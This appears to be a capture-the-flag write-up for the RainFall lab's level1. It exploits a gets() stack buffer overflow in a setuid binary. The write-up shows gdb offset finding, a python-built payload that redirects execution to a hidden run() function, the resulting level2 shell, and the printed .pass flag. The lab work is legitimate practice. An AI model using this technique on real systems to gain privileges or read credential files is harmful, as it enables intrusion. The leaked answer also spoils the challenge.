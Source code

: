 level1
======

*	We spawn with a [level1](src/level1) executable
	```console
	level1@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
	level1@RainFall:~$ ./level1
	█
	```
	`./level1` is execute as `level2` user
*	It is reading on `STDIN`
*	From now on I will be using [Ghidra](https://ghidra-sre.org/) as a decompiler even tho I made a small script to disassemble our programs
*	Let's take a look at the [code](./src/level1.c)
*	The `main` declares a variable of `76` bytes on the stack and executes `gets()` on it
*	We also have another function called `run()` (which is never called btw) :
	-	execute `fwrite()` with and string on STDOUT
	-	calls `system()` to execute `/bin/sh`
*	We want to try a [Buffer Overflow Attack](https://www.imperva.com/learn/application-security/buffer-overflow/) to access the function to execute `/bin/sh` as level2
*	We can use a generated string from this [website](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) to make the offset easier to spot
	```gdb
	(gdb) r
	Starting program: /home/user/level1/level1 
	Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7A

	Program received signal SIGSEGV, Segmentation fault.
	0x63413563 in ?? ()
	(gdb) 
	```
	It makes it easier to spot since when we take a look at `$eip`, we can check the corresponding 4 bytes `0x63413563` since every 4 bytes is different in this string. we confirm that the offset is at 76 bytes
*	Next step is to retrieve the address of `run`
	```gdb
	(gdb) p run
	$1 = {<text variable, no debug info>} 0x8048444 <run>
	```
	We need not to forget the little endian rule when writting the payload -> `\x44\x84\x04\x08`
*	We have everything we need, here is the payload :
	```console
	level1@RainFall:~$ python -c 'print "a"*76  + "\x44\x84\x04\x08"' > /tmp/payload
	```
	Be carefull if you are using perl, python is adding a newline at the end but with `perl -e` you have to add it at the end or it won't be clean
*	Now for the execution we have to make sure to use `cat payload -` so that it keeps listening on STDIN instead of just exiting after the segfault
	```console
	level1@RainFall:~$ cat /tmp/payload - | ./level1 
	Good... Wait what?
	whoami
	level2
	cat /home/user/level2/.pass
	53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
	```
